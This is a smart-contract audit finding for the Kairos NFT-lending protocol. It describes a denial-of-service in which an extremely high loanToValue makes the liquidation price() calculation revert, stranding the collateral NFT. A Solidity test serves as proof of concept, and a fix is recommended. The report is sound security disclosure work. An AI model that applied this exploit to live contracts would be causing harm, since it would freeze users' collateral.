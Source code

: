 Inspex

medium

# Denial-of-Service in the liquidation flow results in the collateral NTF will be stuck in the contract.


## Summary
If the `loanTovalue` value of the offer is extremely high, the liquidation flow will be reverted, causing the collateral NTF to persist in the contract forever.


## Vulnerability Detail
The platform allows users to sign offers and provide funds to those who need to borrow assets.

In the first scenario, the lender provided an offer that the `loanTovalue` as high as the result of the `shareMatched` is `0`. For example, if the borrowed amount was `1e40` and the offer had a `loanTovalue` equal to `1e68`, the share would be `0`.

https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/BorrowLogic/BorrowHandlers.sol#L47

As a result, an arithmetic error (`Division or modulo by 0`) will occur in the `price()` function at line 50 during the liquidation process.

https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/AuctionFacet.sol#L34-L55

In the second scenario, if the lender's share exceeds `0`, but the offer's `loanToValue` is extremely high, the `price()` function at line 54 may encounter an arithmetic error(`Arithmetic over/underflow`) during the `estimatedValue` calculation.


https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/AuctionFacet.sol#L54

## Poof of Concept
**kairos-contracts/test/BorrowBorrow.t.sol**
```solidity
function testBorrowOverflow() public {
    uint256 borrowAmount = 1e40;
    BorrowArg[] memory borrowArgs = new BorrowArg[](1);
    (, ,uint256 loanId , ) = kairos.getParameters();
    loanId += 1;

    Offer memory offer = Offer({
            assetToLend: money,
            loanToValue: 1e61,
            duration: 1,
            expirationDate: block.timestamp + 2 hours,
            tranche: 0,
            collateral: getNft()
        });
    uint256 currentTokenId;

    getFlooz(signer, money, getOfferArg(offer).amount);

    {
        OfferArg[] memory offerArgs = new OfferArg[](1);
        currentTokenId = getJpeg(BORROWER, nft);
        offer.collateral.id = currentTokenId;
        offerArgs[0] = OfferArg({
            signature: getSignature(offer),
            amount: borrowAmount,
            offer: offer
        });
        borrowArgs[0] = BorrowArg({nft: NFToken({id: currentTokenId, implem: nft}), args: offerArgs});
    }

    vm.prank(BORROWER);
    kairos.borrow(borrowArgs);

    assertEq(nft.balanceOf(BORROWER), 0);
    assertEq(money.balanceOf(BORROWER), borrowAmount);
    assertEq(nft.balanceOf(address(kairos)), 1);

    vm.warp(block.timestamp + 1);
    Loan memory loan = kairos.getLoan(loanId);
    console.log("price of loanId", kairos.price(loanId));
}
```



## Impact
The loan position will not be liquidated, which will result in the collateral NTF being permanently frozen in the contract.

## Code Snippet
https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/BorrowLogic/BorrowHandlers.sol#L47

https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/AuctionFacet.sol#L50

https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/AuctionFacet.sol#L54
## Tool used

Manual Review

## Recommendation
We recommend adding the mechanism during the borrowing process to restrict the maximum `loanToValue` limit and ensure that the lender's share is always greater than zero. This will prevent arithmetic errors.